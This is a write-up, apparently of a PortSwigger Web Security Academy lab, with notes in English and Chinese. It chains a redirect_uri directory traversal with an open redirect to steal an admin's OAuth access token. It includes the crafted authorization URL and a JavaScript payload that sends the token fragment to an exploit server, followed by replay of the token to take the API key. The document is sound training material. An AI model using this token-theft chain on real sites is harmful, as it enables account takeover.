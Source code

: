 
## Background  
This lab is to find an open redirect, use it to steal an access token for the admin user's account. Use the access token to obtain the admin's API key and submit it to solve the lab.  

## step  
1. With Burp is on, complete the OAuth log in process. Log out and try log in again, notice it automatically login using social media account.  

2. In Burp, find the GET /me. Notice the blog website makes an API call to the userinfo endpoint and then GET /me uses the data it fetches to log in.  
![image](https://user-images.githubusercontent.com/106157137/177148414-b54786e5-b1d2-41f9-bfc3-3845a3e1dc71.png)  
3. Find the latest GET /auth?client_id=[...] and send it to repeater.  
![image](https://user-images.githubusercontent.com/106157137/177148678-c9e93652-6e77-4f7d-aacc-b1c74d92cb90.png)  
4. In repeater, try to modify the end of the redirect url. Notice it cannot support external domains.  
![image](https://user-images.githubusercontent.com/106157137/177148927-76207d96-05cb-4eb2-9100-f293212e83f2.png)  
5. Change the redirect url as the same format of the post website. Confirm it is vulnerable to **directory traversal**.  
![image](https://user-images.githubusercontent.com/106157137/177149991-e10334d2-b470-48aa-88f5-0cdcf6759c0d.png)  
![image](https://user-images.githubusercontent.com/106157137/177150107-cb85e1bc-a4bc-489b-869d-2f100be6937c.png) 

6. Show the response of the modified one in repeater in browser, notice that the redirected url contains token. 
![image](https://user-images.githubusercontent.com/106157137/177150539-1917e50f-b9bf-45bd-9138-0644bad62f52.png)  

7. On the bottom of the website, click on "Next Blog", and we will see Get /post/next?path=[...] in the Burp HTTP history.  
![image](https://user-images.githubusercontent.com/106157137/177151173-22d32fc0-6252-41e5-941a-e2b394f30563.png)  

8. Try to modify the value after "path=", and we notice the path supports external domains. So we know that this is an open redirect.  
![image](https://user-images.githubusercontent.com/106157137/177151393-9742fa06-e66b-4e75-b8fe-4fa8e24a3331.png)  

9. Design an URL that combines these vlunerabilities. It shall be something initiates an OAuth flow with the redirect_uri pointing to the open redirect, which will be the exploit server.  
`https://YOUR-LAB-OAUTH-SERVER.web-security-academy.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.web-security-academy.net/exploit&response_type=token&nonce=399721827&scope=openid%20profile%20email`  

YOUR-LAB-OAUTH-SERVER can be found:  
![image](https://user-images.githubusercontent.com/106157137/177152587-87a34423-e0a6-4cc3-9755-1fa9764fd0a3.png)  

YOUR-LAB-CLIENT-ID can be found:  
![image](https://user-images.githubusercontent.com/106157137/177152766-97fd2f76-5970-47e1-87ba-18cbf0ec8dad.png)  
 
YOUR-LAB-ID can be found:  
![image](https://user-images.githubusercontent.com/106157137/177153010-bdf03b31-72ae-4eff-8c9b-6e4c3a29bb43.png)  

YOUR-EXPLOIT-SERVER-ID can be found:  
![image](https://user-images.githubusercontent.com/106157137/177153127-b1d72baa-a0e2-4f2c-8ee1-a554639ae290.png)  

10. Copy this url in browser, and it will be redirect to the exploit server's "hello world" page. Notice we still get a token this time.    
`https://oauth-0a3a00240345c18fc0281c5a02930082.web-security-academy.net/auth?client_id=b5alwpbqdvjyso7my0y9f&redirect_uri=https://0a42005d030cc12ec0071cbd00180043.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0acf00680319c1ccc07b1c5901df0001.web-security-academy.net/exploit&response_type=token&nonce=399721827&scope=openid%20profile%20email`  
![image](https://user-images.githubusercontent.com/106157137/177153835-e23f3718-f197-4cef-a27d-560b3d8a85c4.png)  

11. Now we need to create a exploit, to force the victim to visit our URL, and to excute the script to steal the access token.  
写一个脚本，让受害人先被redirect到我们的exploit server，然后执行脚本来获取其中的access token.  
The scirpt is like:  
```  
<script>  
    if (!document.location.hash) {  
        window.location = 'https://YOUR-LAB-AUTH-SERVER.web-security-academy.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.web-security-academy.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email'  
    } else {  
        window.location = '/?'+document.location.hash.substr(1)  
    }  
</script>  
```  

> !document.location.hash  
> location.hash则可以用来获取或设置页面的标签值。  
> 假设当前url为http://www.runoob.com/test.htm＃PART2  
> 语句：document.write(location.hash);  
> 输出：#part2  

> window.location  
> Can be used to get the current page address (URL) and to redirect the browser to a new page, and can be written without the window prefix.  

> substr(1)  
> 取除了第一位（index=0）以外的剩余字符串  

> url中特殊字符  
> '/': 用来分隔目录和子目录  
> '?': 用来分隔实际的url和参数  

12. Store the exploit and click on view exploit. Check the access log, you will see a new request for GET /?access_token=[...]  
![image](https://user-images.githubusercontent.com/106157137/177159258-e5ad5f01-0add-42c3-b453-d9f5015d4250.png)  

13. Deliver exploit to victim. Then open the access log again. This time we can see the access token of the admin.  
![image](https://user-images.githubusercontent.com/106157137/177159447-561bfbfd-c835-4a6f-aa65-34ba0a5d7f27.png)  

14. Copy it and paste it to replace the original token under authorisation in GET /me. Send the request, and we will get the apikey of administrator.   
![image](https://user-images.githubusercontent.com/106157137/177159897-f2735126-bd94-49df-92dd-c01efdaf6d6c.png)  

15. Copy the apikey and paste it to submit the solution.  
